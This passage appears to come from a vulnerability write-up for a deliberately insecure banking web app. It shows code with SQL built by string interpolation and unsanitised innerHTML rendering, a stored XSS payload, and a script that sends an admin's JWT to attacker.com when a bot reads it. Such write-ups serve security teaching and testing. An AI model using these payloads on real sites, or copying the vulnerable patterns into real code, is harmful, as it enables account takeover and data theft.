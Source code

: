 ### 2. Stored XSS in Transaction Notes

**Description**: Transaction notes are stored in the database and displayed without sanitization.

**Location**: Transaction creation in `/api/transfer` endpoint and display in transaction history

**Vulnerable Code**:
```javascript
// Server-side storage without sanitization
const transferQuery = `
  INSERT INTO transactions (sender_id, receiver_id, amount, date, note) 
  VALUES (${fromId}, ${to}, ${amount}, "${new Date().toISOString()}", "${note}")
`;

// Client-side rendering without sanitization
row.innerHTML = `
  <td>${tx.id}</td>
  <td>${tx.sender_id === currentUser.id ? 'Sent' : 'Received'}</td>
  <td>$${parseFloat(tx.amount).toFixed(2)}</td>
  <td>${tx.sender_id === currentUser.id ? 'To: ' + tx.receiver_id : 'From: ' + tx.sender_id}</td>
  <td>${new Date(tx.date).toLocaleString()}</td>
  <td>${tx.note}</td>
`;
```

**How to Exploit**:
1. Log in to the application
2. Make a transfer to another user
3. In the note field, enter: `<img src=x onerror="alert('XSS in Transfer')">`
4. When anyone views the transaction history containing this note, the script will execute

### 3. Stored XSS in Admin Messages with Automated Bot Victim

**Description**: Messages sent to admin are stored in the database and displayed without sanitization. Additionally, an automated admin bot checks these messages every 5 minutes.

**Location**: Message submission in frontend and display in admin dashboard + server-side admin bot

**How to Exploit**:
1. Log in as a regular user
2. Navigate to the "Message Admin" feature
3. Enter a message with a token-stealing payload:
   ```html
   <script>
   fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'))
   </script>
   ```
4. When the automated admin bot checks messages every 5 minutes, it will execute the script with admin privileges
5. The admin's JWT token will be sent to your attacker server, allowing you to impersonate the admin

**Evidence of Exploitation**:
- Check server logs to see when the admin bot processes your message
- In a real-world scenario, your attacker server would receive the admin's JWT token
